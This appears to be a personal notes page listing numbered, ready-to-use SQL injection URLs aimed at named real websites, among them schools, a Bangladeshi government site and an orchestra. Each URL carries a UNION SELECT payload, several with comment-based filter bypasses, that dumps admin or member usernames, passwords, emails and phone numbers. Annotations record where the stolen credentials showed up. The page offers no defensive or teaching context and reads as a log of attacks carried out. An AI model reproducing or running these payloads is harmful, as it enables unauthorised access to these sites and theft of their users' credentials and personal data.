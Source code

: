34. https://www.ntcm.com.ph/cadet-program.php?id=-9%27%20union%20select%201,2,group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27),4,5,6,7,8,9%20from%20user--+

35. http://tibarose.com/social-project.php?lang=esp&id=-222%20/*!12345union*/%20/*!12345select*/%201,2,3,4,5,6,/*!12345group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27)*/%20/*!12345from*/%20members--

36. http://www.bethanyashram.net/institution.php?id=-4%27%20/*!12345union*/%20/*!12345select*/%201,2,3,/*!12345unhex(hex(group_concat(uname,0x3a3a,pwd,%20%27%3Cbr%3E%27)))*/,5%20/*!12345from*/%20login--+

37. https://www.knowledgekingdom.com.jo/english/program.php?id=-2021%27%20/*!12345union*/%20/*!12345select*/%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,/*!12345unhex(hex(group_concat(AIC_REG_MOBILE,0x3a3a,AIC_REG_EMAIL,%20%27%3Cbr%3E%27)))*/,71,72,73,74%20/*!12345from*/%20REGISTRATIONS--+

38. http://ksgroupcolleges.com/gallery.php?id=-6%27%20union%20select%201,group_concat(user,0x3a3a,pass,0x3a3a,email),3,4%20from%20admin--+
	<mark style="background: #FF5582A6;">(user va pass va email in picture tab)
</mark> 

39. http://www.mudp.gov.bd/photo-gallery.php?id=-18%20union%20select%201,2,3,4,group_concat(username,0x3a3a,password)%20from%20membership--
	<mark style="background: #FF5582A6;">(user va pass in picture tab)</mark> 

40. https://www.pacificsymphony.org/photo-gallery.php?id=-67%27%20union%20select%20group_concat(admin_email,0x3a3a,admin_user,0x3a3a,admin_pass)%20from%20administrators--+

	with : [[05-Source (Method)]]

41. https://www.cherishexpeditions.com/program.php?id=-1%20union%20select%201,group_concat(username,0x3a3a,pw,%20%27%3Cbr%3E%27),3,4,5,6,7,8%20from%20admin--&type=2
	<mark style="background: #FF5582A6;">(important table found in source)</mark> 

42. http://www.4remedy.com/travel.php?id=-Travel%20India%27%20union%20select%201,2,3,4,group_concat(emailid,0x3a3a,password,%20%27%3Cbr%3E%27),6,7,8,9,10,11,12%20from%20administrator--+

43. https://www.fidaato.in/vatsalya/news.php?id=-24%27%20union%20select%201,unhex(hex(group_concat(name,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27))),3%20from%20vatsalya_ch_a_cli_nil--+

	with : [[07-Like (Method)]]

44. http://www.riyadhtravel.net/travel.php?id=-6%27%20/*!12345union*/%20/*!12345select*/%201,2,3,username,5,6,7,8,9,10,11,12,13%20from%20admin--+

	http://www.riyadhtravel.net/travel.php?id=-6%27%20/*!12345union*/%20/*!12345select*/%201,2,3,password,5,6,7,8,9,10,11,12,13%20from%20admin--+
	
	with : [[09-Version 4]]

45. view-source:https://m.lok1lok.com/img.php?id=-145%20union%20select%20111,222,333,444,555,unhex(hex(group_concat(username,0x3a3a,phone,0x3a3a,email,0x3a3a,password))),777,888,999,10,11,12,13,14,15%20from%20tbl_member--

# <mark style="background: #FFB86CA6;">The Following Sites Don't Have An Admin Panel Or An Important Table :</mark> 
